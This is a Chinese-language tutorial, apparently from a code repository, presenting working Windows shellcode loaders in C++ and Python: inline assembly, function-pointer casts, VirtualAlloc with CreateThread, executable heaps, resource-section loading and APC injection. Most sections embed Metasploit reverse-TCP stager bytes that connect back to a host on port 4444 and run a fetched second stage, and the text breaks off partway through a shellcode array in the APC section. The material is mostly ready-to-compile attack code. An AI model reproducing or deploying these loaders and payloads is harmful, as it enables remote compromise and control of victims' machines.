







1.内联汇编加载

使用内联汇编只能加载32位程序的ShellCode，因为64位程序不支持写内联汇编

```cpp
#pragma comment(linker, "/section:.data,RWE") //将data段的内存设置成可读可写可执行
#include <Windows.h>

//ShellCode部分
unsigned char buf[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x07\x01\xc7\x49\x75\xef\x52"
"\x8b\x52\x10\x57\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4c"
"\x01\xd0\x8b\x48\x18\x8b\x58\x20\x01\xd3\x50\x85\xc9\x74\x3c\x49"
"\x8b\x34\x8b\x31\xff\x01\xd6\x31\xc0\xc1\xcf\x07\xac\x01\xc7\x38"
"\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89"
"\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12"
"\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f"
"\x54\x68\xd2\x53\x6e\xfc\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29"
"\xc4\x54\x50\x68\x9c\x13\x41\xc4\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f"
"\x9b\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
"\x68\x2c\x9b\xfc\xa4\x50\x58\xff\xd5\x97\x6a\x10\x56\x57\x68\xb6\x59\xc0"
"\x0e\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\xe8\xd9\xce\x36\xff\xd5\x83\xf8"
"\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68"
"\x9c\xed\x92\x66\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\xe8\xd9"
"\xce\x36\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a"
"\x00\x50\x68\x3e\xba\x17\xa3\xff\xd5\x57\x68\xe6\xfc\xe1\xe2\xff"
"\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xfc\xd3\xf4\x5e\x6a\x00\x53"
"\xff\xd5";

void main() {
    
	__asm {
		lea eax,buf    // 将buf的地址加载到eax寄存器
		call eax  // 使用call指令跳转到eax寄存器指向的地址（即buf），开始执行shellcode
	}
}
```


# 2.使用函数指针加载

如下代码所示，`(void(*)(void))`是一个函数指针类型的强制转换, 该函数指针指向一个没有参数且返回值类型为void的函数，也就是说这行代码将 `buf` 的地址转换为一个函数指针，然后调用该指针所指向的函数，其实这种方法和上述加载方式原理是一样的，只不过这种方法还能用于加载64位的ShellCode

```cpp
#pragma comment(linker, "/section:.data,RWE") //将data段的内存设置成可读可写可执行
#include <Windows.h>

//ShellCode部分
unsigned char buf[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x07\x01\xc7\x49\x75\xef\x52"
"\x8b\x52\x10\x57\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4c"
"\x01\xd0\x8b\x48\x18\x8b\x58\x20\x01\xd3\x50\x85\xc9\x74\x3c\x49"
"\x8b\x34\x8b\x31\xff\x01\xd6\x31\xc0\xc1\xcf\x07\xac\x01\xc7\x38"
"\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89"
"\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12"
"\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f"
"\x54\x68\xd2\x53\x6e\xfc\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29"
"\xc4\x54\x50\x68\x9c\x13\x41\xc4\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f"
"\x9b\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
"\x68\x2c\x9b\xfc\xa4\x50\x58\xff\xd5\x97\x6a\x10\x56\x57\x68\xb6\x59\xc0"
"\x0e\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\xe8\xd9\xce\x36\xff\xd5\x83\xf8"
"\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68"
"\x9c\xed\x92\x66\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\xe8\xd9"
"\xce\x36\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a"
"\x00\x50\x68\x3e\xba\x17\xa3\xff\xd5\x57\x68\xe6\xfc\xe1\xe2\xff"
"\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xfc\xd3\xf4\x5e\x6a\x00\x53"
"\xff\xd5";

void main() {   
	((void(*)(void)) & buf)();  //执行ShellCode
}
```


# 3.创建线程加载

上述两种方法都需要将data节的内存设置成可读可写可执行,  以下这段代码的主要作用是在内存中分配一段可执行的内存空间，将buf数组中的内容复制到该内存空间，并创建一个新线程来执行这段内存中的代码

```cpp
#include <Windows.h>

unsigned char buf[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x07\x01\xc7\x49\x75\xef\x52"
"\x8b\x52\x10\x57\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4c"
"\x01\xd0\x8b\x48\x18\x8b\x58\x20\x01\xd3\x50\x85\xc9\x74\x3c\x49"
"\x8b\x34\x8b\x31\xff\x01\xd6\x31\xc0\xc1\xcf\x07\xac\x01\xc7\x38"
"\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89"
"\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12"
"\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f"
"\x54\x68\xd2\x53\x6e\xfc\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29"
"\xc4\x54\x50\x68\x9c\x13\x41\xc4\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f"
"\x9b\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
"\x68\x2c\x9b\xfc\xa4\x50\x58\xff\xd5\x97\x6a\x10\x56\x57\x68\xb6\x59\xc0"
"\x0e\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\xe8\xd9\xce\x36\xff\xd5\x83\xf8"
"\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68"
"\x9c\xed\x92\x66\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\xe8\xd9"
"\xce\x36\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a"
"\x00\x50\x68\x3e\xba\x17\xa3\xff\xd5\x57\x68\xe6\xfc\xe1\xe2\xff"
"\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xfc\xd3\xf4\x5e\x6a\x00\x53"
"\xff\xd5";


void main() {

	// 申请一块可进行读写操作的内存
    LPVOID pMemory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // 将buf数组中的内容复制到刚刚分配的内存中
    RtlMoveMemory(pMemory, buf, sizeof(buf));

    // 创建一个新的线程来执行内存中的代码
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)pMemory, NULL, 0, NULL);

    // 等待新创建的线程执行完成
    WaitForSingleObject(hThread, INFINITE);

}
```


下述是申请内存加载的python版本代码:

```python
#使用MSF生成的python格式的ShellCode
buf =  b""
buf += b"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51"
buf += b"\x41\x50\x52\x48\x31\xd2\x51\x65\x48\x8b\x52\x60"
buf += b"\x56\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x0f\xb7"
buf += b"\x4a\x4a\x48\x8b\x72\x50\x4d\x31\xc9\x48\x31\xc0"
buf += b"\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
buf += b"\x01\xc1\xe2\xed\x52\x48\x8b\x52\x20\x41\x51\x8b"
buf += b"\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f"
buf += b"\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48"
buf += b"\x85\xc0\x74\x67\x48\x01\xd0\x44\x8b\x40\x20\x50"
buf += b"\x49\x01\xd0\x8b\x48\x18\xe3\x56\x48\xff\xc9\x4d"
buf += b"\x31\xc9\x41\x8b\x34\x88\x48\x01\xd6\x48\x31\xc0"
buf += b"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1"
buf += b"\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44"
buf += b"\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
buf += b"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x41\x58"
buf += b"\x41\x58\x48\x01\xd0\x5e\x59\x5a\x41\x58\x41\x59"
buf += b"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
buf += b"\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49"
buf += b"\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49"
buf += b"\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5"
buf += b"\x49\xbc\x02\x00\x11\x5c\xc0\xa8\x2f\x9b\x41\x54"
buf += b"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
buf += b"\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41"
buf += b"\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50"
buf += b"\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89"
buf += b"\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf"
buf += b"\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
buf += b"\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5"
buf += b"\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00"
buf += b"\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9"
buf += b"\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8"
buf += b"\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20"
buf += b"\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00"
buf += b"\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4"
buf += b"\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31"
buf += b"\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba"
buf += b"\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58"
buf += b"\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00"
buf += b"\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41"
buf += b"\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c"
buf += b"\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6"
buf += b"\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2"
buf += b"\xf0\xb5\xa2\x56\xff\xd5"

#bytearray()函数返回一个新字节数组
shellcode= bytearray(buf)


#VirtualAlloc函数用来开辟内存空间,返回类型为ctypes.c_uint64
ctypes.windll.kernel32.VirtualAlloc.restype= ctypes.c_uint64
ptr= ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000),ctypes.c_int(0x40))

#RtlMoveMemory函数将Shellcode加载至此段内存空间
buf= (ctypes.c_char *len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
   ctypes.c_uint64(ptr),
   buf,
   ctypes.c_int(len(shellcode))
)

#使用CreateThread函数创建一个线程从Shellcode的起始地址开始执行此段内存空间的内容
handle= ctypes.windll.kernel32.CreateThread(
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.c_uint64(ptr),
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.pointer(ctypes.c_int(0))
)

#通过WaitForSingleObject函数来等待执行结束
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
```


# 4.通过堆加载

这段代码首先创建了一个具有执行权限的堆，然后在堆中分配内存并将shellcode复制到内存中。最后，代码通过直接调用存储在内存中的shellcode来执行它

```cpp
#include <Windows.h>

// 定义 shellcode（恶意代码）
unsigned char shellcode[] = "";

// 主函数
void main() {
    // 创建一个具有执行权限的堆，以存储shellcode
    HANDLE HeapHandle = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, sizeof(shellcode), 0);

    // 在创建的堆中分配一块内存，并将其地址赋给buffer
    char* buffer = (char*)HeapAlloc(HeapHandle, HEAP_ZERO_MEMORY, sizeof(shellcode));

    // 将shellcode复制到buffer指向的内存中
    memcpy(buffer, shellcode, sizeof(shellcode));

    // 下面是另一种创建线程的方法，这里被注释掉了
    // 创建一个新线程并执行buffer指向的内存中的shellcode
    // HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)buffer, NULL, 0, NULL);

    // 等待新线程执行完毕
    // WaitForSingleObject(hThread, INFINITE);

    // 将buffer指向的内存地址强制转换为一个函数指针，并调用该函数，执行shellcode
    ((void(*)(void)) buffer)();
}

```


# 5.基于资源节加载

## 导入资源

使用MSF生成bin文件，随后点击`添加资源->导入`，并选择生成的bin文件

	


然后自定义bin文件的资源类型, 此处我自定义的类型为"shellcode"，当然你也可以定义成其它的名字

	


添加完资源后会在当前项目生成一个resource.h, 代码如下所示，这里只需注意这段代码`#define IDR_SHELLCODE1 101`

```cpp
#include <Windows.h>
#include "resource.h"


//{{NO_DEPENDENCIES}}
// Microsoft Visual C++ 生成的包含文件。
// 供 Shellcode加载器.rc 使用
//

//IDR_SHELLCODE1 通常用于标识和引用项目中的某个资源，例如嵌入到可执行文件中的二进制数据、图像或其他类型的资源，在项目的其他部分（例如代码或资源脚本中），可以通过使用 IDR_SHELLCODE1 符号来引用这个资源，而不是直接使用数字常量（如 101
#define IDR_SHELLCODE1                  101

// Next default values for new objects
// 
#ifdef APSTUDIO_INVOKED
#ifndef APSTUDIO_READONLY_SYMBOLS
#define _APS_NEXT_RESOURCE_VALUE        102
#define _APS_NEXT_COMMAND_VALUE         40001
#define _APS_NEXT_CONTROL_VALUE         1001
#define _APS_NEXT_SYMED_VALUE           101
#endif
#endif
```


## 实现代码

以下是完整shellcode加载器代码: 

```cpp
#include <Windows.h>
#include "resource.h"

//通过资源加载ShellCode
void ResourceLoader() {

    /*
    FindResource用于查找指定模块（EXE或DLL文件）中指定名称和类型的资源,其语法格式如下:
    HRSRC FindResource(
          HMODULE hModule,  //指向包含要查找的资源的模块的句柄,若该参数为NULL，则查找当前进程中的资源
          LPCTSTR lpName,   //指向资源名称的指针，可以是一个字符串或者一个整数，若是一个整数，则它是一个由MAKEINTRESOURCE宏定义的资源标识符
          LPCTSTR lpType    //指向资源类型的指针，可以是一个字符串或者一个整数。若是一个整数，则它是一个由MAKEINTRESOURCE宏定义的资源类型标识符
    );
    如果查找成功，则返回资源句柄；否则返回NULL
    */
    HRSRC Res = FindResource(NULL, MAKEINTRESOURCE(IDR_SHELLCODE1), L"shellcode");

    //用于获取资源的大小
    DWORD ResSize = SizeofResource(NULL, Res);

    //LoadResource函数会将指定资源句柄所指向的资源数据加载到内存中，并返回一个指向该资源数据的句柄
    HGLOBAL Load = LoadResource(NULL, Res);

    //申请内存
    void* buffer = VirtualAlloc(NULL, ResSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(buffer, Load, ResSize);

    //执行shellcode
    ((void(*)(void)) buffer)();
}

int main() {

    ResourceLoader();
}
```

​	

# 6.基于APC注入

## 什么是APC队列

异步过程调用（APC）队列是一个与线程关联的队列，用于存储要在该线程上下文中异步执行的函数。操作系统内核会跟踪每个线程的 APC 队列，并在适当的时机触发队列中挂起的函数。APC 队列通常用于实现线程间的异步通信、定时器回调以及异步 I/O 操作。

APC 队列包含两种类型的 APC：

1. 内核模式 APC：由内核代码发起，通常用于处理内核级别的异步操作，如异步 I/O 完成。
2. 用户模式 APC：由用户代码发起，允许用户态应用程序将特定函数插入到线程的 APC 队列中，以便在线程上下文中异步执行


## 实现思路

- 使用 `VirtualProtect` 函数修改 `shellcode` 所在内存区域的保护属性，将其设置为可执行、可读、可写（`PAGE_EXECUTE_READWRITE`），以便执行其中的代码。
- 获取 `NtTestAlert` 函数的地址。这是一个内部函数，无法直接通过函数名调用。`NtTestAlert` 函数用于检查当前线程的 APC 队列。如果队列中有挂起的用户模式 APC 请求，`NtTestAlert` 将触发它们的执行。
- 使用 `QueueUserAPC` 函数向当前线程的 APC 队列添加一个执行 Shellcode 的任务。这将在 `NtTestAlert` 被调用时执行 Shellcode。
- 调用 `NtTestAlert` 函数，触发 APC 队列中的任务执行，实现 Shellcode 的执行


## 实现代码

该代码通过在当前线程的 APC 队列中添加一个执行 Shellcode 的任务，并调用 `NtTestAlert` 函数触发 APC 队列中的任务执行，从而实现了加载并执行 Shellcode 的目的

```cpp
#include <Windows.h>

typedef DWORD(WINAPI* pNtTestAlert)();

unsigned char shellcode[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52"
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x31\xff\x0f\xb7"
"\x4a\x26\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d"
"\x01\xc7\x49\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01"
"\xd0\x8b\x40\x78\x85\xc0\x74\x4c\x01\xd0\x8b\x48\x18\x8b"
"\x58\x20\x01\xd3\x50\x85\xc9\x74\x3c\x49\x31\xff\x8b\x34"
"\x8b\x01\xd6\x31\xc0\xc1\xcf\x0d\xac\x01\xc7\x38\xe0\x75"
"\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01"
"\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58"
"\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00"
"\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8"
"\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80"
